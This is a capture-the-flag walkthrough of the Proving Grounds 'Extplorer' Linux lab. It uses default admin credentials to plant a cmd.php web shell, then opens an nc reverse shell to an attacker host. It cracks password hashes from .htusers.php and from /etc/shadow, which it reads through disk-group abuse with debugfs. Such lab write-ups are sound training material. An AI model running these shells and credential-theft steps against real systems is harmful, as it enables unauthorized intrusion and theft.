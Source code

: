 ```yaml
---
layout: default
title: Extplorer
parent: Proving Grounds Practice - Linux
nav_order: 17
---
```


# Scanning

---

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/extplorer]
└─$ sudo nmap -Pn -p- -sC -sV -T4 --open 192.168.180.16

Nmap scan report for 192.168.180.16
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

# Enumeration

---

## 80 | HTTP

Gobuster reveals _/filemanager_

![filemanager](../../../assets/images/ctfs/proving_grounds/extplorer/filemanager.png)

The default username and password _admin:admin_ authenticates.

We have the ability to write files to the _/filemanager_ path and create a cmd.php web shell.

![cmd](../../../assets/images/ctfs/proving_grounds/extplorer/cmd.png)

# Exploitation

---

We have command execution with the cmd.php web shell.

![id](../../../assets/images/ctfs/proving_grounds/extplorer/id.png)

Generate a nc-mknod oneliner and url encode.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/extplorer]
└─$ revshellgen -i 192.168.45.217 -p 9001 -t nc-mknod

[+] Reverse shell command:

rm /tmp/l;mknod /tmp/l p;/bin/sh 0</tmp/l | nc 192.168.45.217 9001 1>/tmp/l

```

Executing the urlencoded payload we get a reverse shell.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/extplorer]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [192.168.45.217] from (UNKNOWN) [192.168.180.16] 33484
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

# Post-Exploitation

---

## Enumerate Dora Hash from .htusers.php

www-data@dora:/var/www/html/filemanager/config$ cat .htusers.php
cat .htusers.php

<?php 
        // ensure this file is being included by a parent file
        if( !defined( '_JEXEC' ) && !defined( '_VALID_MOS' ) ) die( 'Restricted access' );
        $GLOBALS["users"]=array(
        array('admin','21232f297a57a5a743894a0e4a801fc3','/var/www/html','http://localhost','1','','7',1),
        array('dora','$2a$08$zyiNvVoP/UuSMgO2rKDtLuox.vYj.3hZPVYq3i4oG3/CtgET7CjjS','/var/www/html','http://localhost','1','','0',1),
); 

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/extplorer]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 256 for all loaded hashes
Will run 3 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
doraemon         (?)     
1g 0:00:00:02 DONE (2023-12-06 22:22) 0.4219g/s 637.9p/s 637.9c/s 637.9C/s love22..something
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

## Pivot to Dora

```bash
www-data@dora:/bin$ su dora                                                                             
su dora                                                                                                 
Password: doraemon                                                                                      
                                                                                                        
$ id                                                                                                    
id                                                                                                      
uid=1000(dora) gid=1000(dora) groups=1000(dora),6(disk) 
```

## Abuse Disk Group Membership

Since Dora belongs to the *Disk* group we can abuse this group membership to get a root shell.

Here is a good writeup on how this works.

[Disc Group Privilege Escalation](https://vk9-sec.com/disk-group-privilege-escalation/)

If we execute *df -h* we can find the partition that root directory */* is mounted

```bash
dora@dora:~$ df -h
df -h
Filesystem                         Size  Used Avail Use% Mounted on
/dev/mapper/ubuntu--vg-ubuntu--lv  9.8G  5.2G  4.1G  56% /
udev                               947M     0  947M   0% /dev
tmpfs                              992M     0  992M   0% /dev/shm
tmpfs                              199M  1.2M  198M   1% /run
tmpfs                              5.0M     0  5.0M   0% /run/lock
tmpfs                              992M     0  992M   0% /sys/fs/cgroup
/dev/sda2                          1.7G  209M  1.4G  13% /boot
/dev/loop0                          62M   62M     0 100% /snap/core20/1611
/dev/loop3                          50M   50M     0 100% /snap/snapd/18596
/dev/loop2                          68M   68M     0 100% /snap/lxd/22753
/dev/loop1                          64M   64M     0 100% /snap/core20/1852
/dev/loop4                          92M   92M     0 100% /snap/lxd/24061
tmpfs                              199M     0  199M   0% /run/user/1000

```

We want to use *debugfs* to enumerate the root directory.

```bash
dora@dora:~$ debugfs /dev/mapper/ubuntu--vg-ubuntu--lv
debugfs /dev/mapper/ubuntu--vg-ubuntu--lv
debugfs 1.45.5 (07-Jan-2020)

```

This will allow us to read */etc/shadow*

```bash
debugfs:  cat /etc/shadow
cat /etc/shadow
root:$6$AIWcIr8PEVxEWgv1$3mFpTQAc9Kzp4BGUQ2sPYYFE/dygqhDiv2Yw.XcU.Q8n1YO05.a/4.D/x4ojQAkPnv/v7Qrw7Ici7.hs0sZiC.:19453:0:99999:7:::

```

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/extplorer]
└─$ vim root_hash

# Add the root hash to the root_hash file
$6$AIWcIr8PEVxEWgv1$3mFpTQAc9Kzp4BGUQ2sPYYFE/dygqhDiv2Yw.XcU.Q8n1YO05.a/4.D/x4ojQAkPnv/v7Qrw7Ici7.hs0sZiC.

# Crack with John
┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/extplorer]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt root_hash

Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 SSE2 2x])

explorer         (?)     

1g 0:00:00:01 DONE (2023-12-06 22:35) 0.5714g/s 1865p/s 1865c/s 1865C/s adriano..jeter2
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```

We have cracked the root hash and have the password to elevate privileges.

```bash
dora@dora:~$ su root
su root
Password: explorer

root@dora:/home/dora# whoami
whoami
root

```
